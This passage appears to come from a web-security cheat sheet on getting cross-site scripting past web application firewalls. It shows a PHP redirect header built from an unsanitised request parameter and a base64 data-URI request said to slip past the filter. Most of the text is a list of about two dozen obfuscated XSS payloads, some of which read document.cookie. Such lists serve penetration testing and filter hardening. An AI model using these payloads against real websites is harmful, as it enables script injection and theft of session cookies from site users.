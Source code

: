 As well as:

```js
...
header('Refresh: 0; URL='.$_GET['param']);
...
```

This request will not pass through the WAF:

```html
/?param=<javascript:alert(document.cookie>)
```

This request will pass through the WAF and an XSS attack will be conducted in certain browsers:

```html
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

### WAF ByPass Strings for XSS


- `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
- `<Video> <source onerror = "javascript: alert (XSS)">`
- `<Input value = "XSS" type = text>`
- `<applet code="javascript:confirm(document.cookie);">`
- `<isindex x="javascript:" onmouseover="alert(XSS)">`
- `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
- `"><img src="x:x" onerror="alert(XSS)">`
- `"><iframe src="javascript:alert(XSS)">`
- `<object data="javascript:alert(XSS)">`
- `<isindex type=image src=1 onerror=alert(XSS)>`
- `<img src=x:alert(alt) onerror=eval(src) alt=0>`
- `<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
- `<iframe/src="data:text/html,<svg onload=alert(1)>">`
- `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
- `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script`
- `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
- `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>`
- `<form><a href="javascript:\u0061lert(1)">X`
- `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>`
- `<style>//*{x:expression(alert(/xss/))}//<style></style>`

 On Mouse Over​:

- `<img src="/" =_=" title="onerror='prompt(1)'">`
- `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe`
- `<script x> alert(1) </script 1=2`
- `<form><button formaction=javascript&colon;alert(1)>CLICKME`
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
- `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
- `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> `
